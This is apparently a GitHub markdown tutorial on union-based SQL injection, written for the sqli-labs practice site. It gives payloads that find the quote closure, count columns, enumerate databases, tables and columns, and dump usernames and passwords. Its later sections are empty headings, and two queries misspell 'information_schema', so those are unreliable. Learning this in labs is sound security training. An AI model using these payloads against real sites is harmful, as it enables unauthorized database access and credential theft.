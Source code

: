 # SQL Injection

> Before wirting, I want to share a useful learning website about sqli. That [sqli-labs](https://www.cnblogs.com/zhengna/p/12617743.html)

And you are supposed to know the basic of sqli, such as some userful function like "user()","database()","group_concat()", and note that the use
of "#", "--+", etc.

Some useful url encode
1. %20: " "
2. %23: "#"
3. %3a: ":"
4. %7e: "~"
5. %27: "'"
...

# Content
- [1. Union-based](#1-Union-based-Injection)
- [2. Error-based](#2-Error-based-Injection)
- [3. Boolean Blind](#3-Boolean-Blind-Injection)

## 1. Union-based Injection

Here are some basic steps of union injection.

### 1.1 Look for the type of closing symbol

See you need to upload the **$id**

You can put "/?id=" + followings:
1. 1 or 1=1--+
2. 1' or 1=1--+
3. 1" or 1=1--+
4. 1) or 1=1--+
5. 1') or 1=1--+
6. 1") or 1=1--+

You can find that the correct closing lead to a normal reflect instead of ERROR.

### 1.2 Ensure the column number

We assume that $id closed by single quote, then use **order** to find the columns.

Try 
```
?id=1' order by 1--+
```
and then 
```
?id=1' order by 2--+
```
until errors. That's the column number.

### 1.3 Check out the display data

Suppose that there is three columns in total.
```
?id=-1' union select 1,2,3 --+
```
If the output contains 2 and 3, we can set payload in position 2 and 3, where will show the data we want.

Note that there is always a **LIMIT 0,1** in the query. And you need to make the select of $id not work.

### 1.4 Blast databases

The current database you are using is **database()**
Use following to show it:
```
?id=-1' union select 1,database(),3 --+
```

If you want to show the all databases, try following:
```
?id=-1' union select 1,group_concat(schema_name),3 from information_schame.schemata --+
```

### 1.5 Blast tables

You always need to know the tables in your current database, blast tables like this:

```
?id=-1' union select 1,group_concat(table_name),3 from information_schame.tables where table_schema=database() --+
```

You can replace the database() with the database name you found in step 4.

### 1.6 Blast columns

Say you want to blast all columns of table "users" in current database. 

```
?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_schema=database() and table_name='users' --+
```

### 1.7 Dump the data

Finally, you got the "id,username,password" columns in table users. 
```
?id=-1' union select 1,group_concat(username, 0x3a, password),3 from users --+
```

## 2. Error-based Injection

## 3. Boolean Blind Injection

## 4. Time Blind Injection





